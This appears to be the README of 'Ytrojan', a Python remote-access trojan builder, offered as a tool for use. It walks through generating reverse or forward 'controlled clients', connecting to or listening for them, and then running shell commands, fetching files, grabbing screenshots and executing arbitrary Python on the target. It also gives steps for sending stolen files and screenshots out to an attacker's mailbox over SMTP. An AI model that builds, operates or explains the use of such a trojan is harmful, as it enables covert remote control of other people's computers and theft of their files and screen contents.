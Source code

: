 # Ytrojan

## Select Your Language

Zh-cn   En-us

## How to use?

Run Main-Cmd.py with Python 3.10 or higher
Program running result：
```
__   ___             _             
\ \ / / |_ _ __ ___ (_) __ _ _ __  
 \ V /| __| '__/ _ \| |/ _` | '_ \ 
  | | | |_| | | (_) | | (_| | | | |
  |_|  \__|_|  \___// |\__,_|_| |_|
                  |__/             
                                      
Ytrojan $>
```  

### Use the "generate" command to generate the Controlled Client

```
generate [Option] [Path] [Ip] [Port]
1. [Option] 0 or 1
    When the option is 0, generate reverse controlled client
    When the option is 1, generate forward controlled client
2. [Path] The place where the controlled client is generated
3. [ip] Target host (or your computer) IP
   [port] Target host (or your computer) port
    When "option" is 0, ip and port are your computer's
    When "option" is 1, ip and port are those of the controlled client
    When parameters $> appears, it means that you need to select the function of the controlled client you want
    Currently supported functions are: shell, get, win, py
    For example, if you want the controlled client to be able to execute shell and py statements, you can do this:
    parameters $>shell py
````

### Use the "connect" command to connect to the forward host

````
connect [ip] [port]
1. [ip][port] are all target
2. This command should be run after the controlled client runs
````

### Use the "listen" command to connect to the reverse host

````
listen [ip] [port]
1. [ip][port] are your computer
2. This command should be run before the controlled client
````

### How to control the target

After connecting to the target, you can operate the target with the following commands:
(connecting to the target might output "ip $>")

````
1. shell [Command] #Execute shell command
2. get [Path] #Get the file
3. win #Get the current screenshot
4. py [Code] #Execute python code
````

E.g.
````
1. shell whoami #Execute whoami command
    shell id
    shell ls
2. get a.txt #Get a.txt
    get /a.jpg #Get a.jpg in the root directory
3. win #Get the current screenshot
4. py print('hello world') #output hello world
    py import os; print(os.name)
````

### Attention!
Because shell commands are not interactive shells you cannot execute commands like "vim" and "sudo"!

The "get" and "win" commands use the smtp protocol to transfer files. You must do the following before using these two commands!!!

````
$> py host = "smtp server domain name" #For example, NetEase mailbox is smtp.163.com
命令执行成功
$> py port = "smtp service port" #usually port 25
命令执行成功
$> py username = "your email"
命令执行成功
$> py password = "The password provided to you by the smtp service operator"
命令执行成功
````
